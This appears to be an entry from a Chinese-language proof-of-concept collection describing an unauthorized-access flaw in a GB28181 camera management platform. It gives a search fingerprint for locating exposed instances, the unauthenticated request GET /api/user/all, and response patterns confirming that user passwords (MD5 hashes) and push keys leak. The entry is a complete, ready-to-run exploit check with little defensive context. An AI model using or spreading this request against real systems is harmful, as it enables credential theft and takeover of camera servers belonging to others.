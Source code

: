 ﻿# GB28181摄像头管理平台-未授权访问-api

> 更新时间：2024-05-14

> 漏洞编号：

> 漏洞说明： GB28181摄像头管理平台api接口处存在未授权漏洞,恶意攻击者可以通过此漏洞获取到登录信息，从而登录到后台，使服务器处于不安全的状态  

> 漏洞特征：body="国标28181"

> 验证脚本：HTTP

```
GET /api/user/all HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?password)(?=.*?pushKey).*?$

> 上传文件定位：

> 验证文件来源：GB28181摄像头管理平台-未授权访问-api.poc

```
备注说明：password值为MD5加密值  
```